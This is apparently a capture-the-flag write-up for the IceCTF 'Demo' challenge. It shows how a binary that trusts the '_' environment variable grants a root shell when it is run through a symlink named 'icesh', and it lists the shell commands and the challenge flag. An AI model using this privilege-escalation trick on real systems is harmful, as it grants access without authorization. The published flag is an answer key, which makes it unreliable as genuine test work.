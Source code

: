 ```yaml
---
layout: writeup
title: 'Stage 2 Pwn: Demo'
level:
difficulty:
points:
categories: []
tags: []
flag: IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}
---
```

## Challenge

I found this awesome premium shell, but my demo version just ran out...
can you help me crack it? `/home/demo/` on the shell

## Solution

The [c source code](writeupfiles/demo.c) is provided alongside. It
checks  
the environment variable for `_` which is the name of the executable
being  
run, takes the basename of that, and compares against "icesh", exiting
if  
not equal, otherwise giving root permissions which allow access to
`/home/demo/flag.txt`

So, we create a symlink to the file with a new name (in order to inherit

permissions of that file), and then run it which pops open a shell.

    [ctf-98836@icectf-shell-2016 ~]$ ln -s /home/demo/demo icesh
    [ctf-98836@icectf-shell-2016 ~]$ ./icesh
    $ bash
    ctf-98836@icectf-shell-2016:~$ cat /home/demo/flag.txt
    IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}

## Flag

    IceCTF{wH0_WoU1d_3vr_7Ru5t_4rgV}

